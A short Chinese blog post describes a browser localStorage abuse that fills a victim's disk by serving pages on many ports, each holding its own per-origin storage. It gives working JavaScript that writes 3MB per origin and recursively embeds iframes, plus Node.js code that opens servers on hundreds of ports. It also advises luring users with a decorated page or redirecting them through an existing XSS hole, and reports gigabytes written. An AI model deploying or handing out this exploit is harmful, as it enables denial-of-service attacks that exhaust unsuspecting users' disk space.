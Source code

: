 title: LocalStorage 的一个漏洞
date: 2016-02-07 21:12:04
tags:
  - html5
categories:
  - 安全
---


LocalStorage 是 html5 的本地存储，其中的内容以文件的形式保存在本地磁盘中。

一个域（协议+域名+端口）的文件大小PC端为5~10M，移动端不大于2.5M。

但是我们可以在端口上做点手脚，因为端口是可控的，我们可以开一个服务器监听很多个端口，然后输出的页面使用iframe进行递归包含。

比如我们的页面可以嵌入以下代码：<!--more-->

```
(function(){
    var maxPort = ...;

    // 写文件
    var s = "";
    for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
    }
    localStorage.setItem('k', s);

    var port = parseInt(location.port) + 1;
    if(port > maxPort) return;

    if(port % 50 == 0){
        //每50个重定向一次，防止崩溃
        window.location.href = url;
    } else {
        // 新添加iframe
        var url = "http://example.com:" + port;
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
    }
})();
```

之后我们用Node.js架设服务器：

```
var http = require('http');
var fs = require('fs');

var content = fs.readFileSync('./index.html');

var maxPort = ...;

for(var port = 1000; port < maxPort; port++){
    http.createServer(function (request, response) {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
    }).listen(port);
}
```

我们可以给页面加点装饰，诱导用户点击。也可以使用现有的XSS漏洞重定向过去。

测试结果

100个端口有几乎500MB

![](http://litten.github.io/assets/blogImg/localstorage3.png)

200个端口则有1.17个G

![](http://litten.github.io/assets/blogImg/localstorage4.png)

如果将端口调整至2000个

![](http://litten.github.io/assets/blogImg/localstorage5.png)

GG。

注

来源：[作为一个前端，可以如何机智地弄坏一台电脑？](http://litten.github.io/2015/07/06/hack-in-localstorage/)